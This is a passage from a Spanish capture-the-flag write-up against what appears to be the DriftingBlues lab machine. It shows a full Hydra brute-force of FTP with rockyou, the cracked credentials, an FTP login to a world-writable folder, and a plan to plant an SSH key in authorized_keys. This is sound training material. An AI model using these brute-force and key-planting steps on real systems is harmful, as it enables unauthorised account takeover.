 No nos trajo información, intentamos con `gobuster` fuzzing más en detalle pero sin nada relevante.

## Explotación

---

Vamos a probar fuerza bruta con `Hydra` sobre el servicio `FTP` que nos pedía usuario y clave, el servicio SSH necesita un certificado.

```bash
❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.11.12.34 ftp -t 10
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-28 10:10:52
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 57377596 login tries (l:4/p:14344399), ~5737760 tries per task
[DATA] attacking ftp://10.11.12.34:21/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 57377496 to do in 9562:55h, 10 active
[STATUS] 103.33 tries/min, 310 tries in 00:03h, 57377286 to do in 9254:25h, 10 active
[STATUS] 106.29 tries/min, 744 tries in 00:07h, 57376852 to do in 8997:16h, 10 active
[STATUS] 106.67 tries/min, 1600 tries in 00:15h, 57375996 to do in 8964:60h, 10 active
[21][ftp] host: 10.11.12.34   login: luther   password: mypics
```

Nos logueamos por FTP con las credenciales obtenidas y listamos su contenido.

```bash
❯ ftp 10.11.12.34
Connected to 10.11.12.34.
220 ProFTPD Server (driftingblues) [::ffff:10.11.12.34]
Name (10.11.12.34:lv): luther
331 Password required for luther
Password:
230 User luther logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||7863|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   3 root     root         4096 Jan  9  2021 .
drwxrwxrwx   3 root     root         4096 Jan  9  2021 ..
drwxrwxrwx   2 1001     1001         4096 Jan  9  2021 hubert
-rw-r--r--   1 root     root           50 Jan 28 12:12 sync_log
226 Transfer complete
```

El directorio del usuario `hubert` está vacío, pero podemos cargar nuestra clave pública de ssh para conectarnos como dicho usuario, creamos el directorio .ssh y cargamos nuestra clave pública como `authorized_keys`.
